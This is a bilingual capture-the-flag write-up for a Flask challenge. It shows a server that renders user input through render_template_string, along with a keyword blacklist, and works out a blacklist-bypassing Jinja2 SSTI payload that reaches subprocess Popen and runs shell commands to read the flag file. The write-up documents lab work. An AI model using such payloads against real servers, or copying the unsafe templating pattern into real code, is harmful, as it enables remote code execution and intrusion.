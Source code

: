 # **Flasksibel**

**Difficulty:** Advanced  
**Flag:** `HC5{4P4k4H_k4L14N_b4Ru_M3ng3N4l_55T1???}`

---

## **EN**

In this challenge, we're provided with a flask-based website and its [source code](./dist/). The website has a simple form consisting of just a text input and a submission button.  
![UI](image.png)

When submitted, the flask server renders the input as part of the html through a template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Checking out the source code, we see that there is a sanitization mechanism that prevents certain keywords from being inputted into the username,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

and if it detects said keywords in the input, the server will return an error object.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Looking at the blacklist, it's pretty clear that this flag requires an RCE of some sort, however, the blacklist is quite comprehensive and it took me quite a while to find the right references to work with. (_"\." AND "\_" are both BANNED? Insane._)

So the first entrypoint involves the templating mechanism. The template mechanism uses a format string to render the `username` variable onto it.

What's bad about it, is it doesn't escape/sanitize special characters that can result in the escaping of the template and dropping straight into python code.

This can be confirmed by inputting `{{ 7 * 7 }}`, where if the sanitization was done properly, we'd just see the input, instead we see 49, indicating RCE:
![It executed it](image-1.png)

So now, it's just a matter of executing `ls` and `cat` somehow, without having to use the words/characters in the blacklist. Working off the [reference I had](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), what I needed was a built-in python class object to start off with.

Fortunately, `dict` was already a class and it wasn't banned, so I started off with that.

```py
{{ dict }}
```

Then, we needed to access the `__subclasses__`. This is done so that we can see every method that inherits the `dict` class, to see which one we can exploit to run the two CLI utilities necessary.

First, what I did was access `__class__`, then drop down to `__base__`. The underscores were escaped by using their UTF-8 code variant, `\x5f`. In hindsight, dropping down to `__class__` wasn't necessary, since `dict` was already a class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Then, to access the methods I did this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

This returns a large list of methods.
![Alt text](image-2.png)
Skimming through, what I was looking for was either a method to load up a file (e.g. `open()`) or one to open up a shell (e.g. `check_output()` or `Popen()`).

At index 352, I see _just_ the tool that I needed, `Popen`. `Popen` wasn't exactly ideal, as my experience with it before has only ever been to use it as a worker spawner w/o bidirectional comms, but we'll have to make do.

Looking around on Google, I found a few references on how to run `Popen` as a single turn (run a single command) shell. Here's the final payload that I came up with:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Using this with `ls`, I tracked the flag down to `/` under the name `flag_ssti.txt`, so I ran this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉
![WIN](image-3.png)

---

## **ID**

Di challenge yang ini kita diberikan website berbasis flask dan [source code](./dist/)nya. Websitenya simpel, form dengan input teks dan button untuk submit.  
![UI](image.png)

Saat disubmit, teks dirender di server ke htmlnya menggunakan template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Kalau kita lihat di _source code_, kita bisa lihat kalau ada sanitasi yang mencegah _request_ jika mengandung beberapa _keyword_,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

dan jika terdeteksi ada _keyword_ dalam request, maka akan return object error.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Kalo kita liat blacklistnya ini memang sepertinya sebuah RCE, tetapi melihat listnya cukup komplit, agak susah mencari referensinya. (_"\." DAN "\_" DUA-DUANYA DIBAN? Gile._)

Jadi pintu masuk yang pertama itu melalui mekanisme templatenya, dia menggunakan format string untuk merender variabel `username` ke html.

Yang gak bener itu adalah, kalo kita lihat, dia nggak sanitasi _special characters_ yang bisa digunakan untuk _escape_ dari stringnya terus langsung ke _python_.

Ini bisa kita konfirmasi pake `{{ 7 * 7 }}`, dimana kalo bener, kita harusnya liat sama persis, tapi malah 49, berarti RCE:
![It executed it](image-1.png)

Nah, tinggal cari cara jalanin `ls` dan `cat`, tanpa pake kata di blacklist. Pake [referensi](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), yang aku perluin pertama adalah class object.

Untungnya, `dict` udah class dan nggak diban, jadi aku mulai dari situ.

```py
{{ dict }}
```

Abis itu kite perlu `__subclasses__`. Ini biar kita bisa liat keturunan si `dict` class, biar bisa tau yang mana yang bsia kita gunakan untuk ngejalanin utility-utility di atas.

Jadi pertama itu `__class__`, terus `__base__`. Underscorenya diganti pake variasi special, `\x5f`. Sebenernya sih, `__class__` nggak perlu, karena `dict` udah class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Nah, terus kita akses `__subclasses__`:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

Ini hasilnya list yang **gede** banget.
![Alt text](image-2.png)
Aku cari di listnya untuk sesuatu yang bisa buka file (e.g. `open()`) atau yang bisa buka shell (e.g. `check_output()` or `Popen()`).

Di index 352, keliatan tuh, `Popen`. `Popen` nggak ideal sih sebenernya, karena aku cuman pernah pake dia buat buka worker shell, jadi aku nggak familier dengan sintaksnya, tapi yowes.

Liat-liat di Google, ketemu beberapa referensi untuk jalanin `Popen` sebagai shell sekali jalan (jalanin satu command aja). Ini payload akhirnya yang aku dapet:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Pake ini dengan `ls`, aku nemu flag di `/` dengan nama `flag_ssti.txt`. Udah deh, gini:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉
![WIN](image-3.png)
